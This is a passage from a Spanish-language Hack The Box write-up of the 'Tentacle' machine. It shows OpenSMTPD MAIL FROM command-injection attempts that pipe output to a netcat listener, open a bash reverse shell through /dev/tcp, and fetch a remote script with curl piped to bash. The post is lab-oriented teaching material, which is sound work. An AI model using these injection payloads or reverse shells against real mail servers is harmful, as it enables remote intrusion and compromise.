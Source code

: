 ```bash
❭ tshark -i tun0 -Y "icmp" 2>/dev/null
```

Y ejecutamos:

![310bash_proxy_telnet_poc_withping](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tentacle/310bash_proxy_telnet_poc_withping.png)

Perfecto, tenemos ejecución remota de comandos, intentemos ejecutarnos una Reverse Shell (JA)...

Intentando cositas como:

> MAIL FROM:<;ping -c 1 10.10.14.138;id | nc 10.10.14.138 4433;>
>> Obtenemos la peticion `ICMP` pero nada en nuestro listener `nc`.
> MAIL FROM:<;ping -c 1 10.10.14.138;bash -i >& /dev/tcp/10.10.14.138/4433 0>&1;>
>> Nos da un error de que no es valido el caracter `&`.
> MAIL FROM:<;ping -c 1 10.10.14.138;curl http://10.10.14.138/revsh.sh | bash;>
>> No obtenemos ninguna peticion en nuestro servidor.

Y bueno otras pruebas, nada... Despues de varios intentos fallidos, volvi a la web y encontre uno de los recursos que referencie antes, en el que nos indican el por que no estamos obteniendo la Shell:

* [OpenSMTPD Privilege Escalation Code Execution](https://packetstormsecurity.com/files/156137/OpenBSD-OpenSMTPD-Privilege-Escalation-Code-Execution.html).
